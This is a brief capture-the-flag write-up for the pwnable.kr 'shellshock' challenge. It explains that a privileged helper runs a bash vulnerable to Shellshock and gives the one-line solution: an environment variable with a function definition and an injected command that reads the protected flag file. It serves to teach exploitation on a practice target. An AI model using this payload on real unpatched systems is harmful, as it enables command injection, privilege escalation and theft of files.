 # Shellshock

## The Challenge

Mommy, there was a shocking news about bash. I bet you already know, but lets just make it sure :\)

ssh shellshock@pwnable.kr -p2222 \(pw:guest\)

## The Solution

Let's look at the files.

![](../.gitbook/assets/image%20%2837%29.png)

What is the purpose of this bash binary?

The binary is running with shellshock\_pwns privileges. What is it doing?

![](../.gitbook/assets/image%20%2841%29.png)

It runs the bash binry with shellshock\_pwns privileges. what's so special about that bash? As the name of the challenge suggests, this bash is vulnerable to [shellshock](https://en.wikipedia.org/wiki/Shellshock_%28software_bug%29).

![](../.gitbook/assets/image%20%2838%29.png)

Here is the solution for ya'll:

```text
env x='() { :;}; /bin/cat flag' ./shellshock
```

